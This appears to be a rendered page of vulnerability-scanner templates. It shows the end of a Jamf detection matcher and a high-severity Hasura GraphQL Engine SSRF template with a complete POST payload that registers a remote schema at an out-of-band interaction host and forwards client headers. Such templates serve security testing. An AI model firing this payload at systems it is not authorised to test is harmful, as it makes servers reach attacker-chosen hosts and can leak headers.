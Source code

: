 ### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

**Type - word**

- words
  1. com.jamfsoftware.jss

---

# Hasura GraphQL Engine - SSRF Side Request Forgery

- severity - high
- tags - hasura,ssrf,graphql

## Requests

### Step - 1

```
POST /v1/query HTTP/1.1
Host: {{Hostname}}
Content-Type: application/json
Accept: */*

{
   "type":"bulk",
   "args":[
      {
         "type":"add_remote_schema",
         "args":{
            "name":"test",
            "definition":{
               "url":"https://{{interactsh-url}}",
               "headers":[
               ],
               "timeout_seconds":60,
               "forward_client_headers":true
            }
         }
      }
   ]
}

```

### Matchers
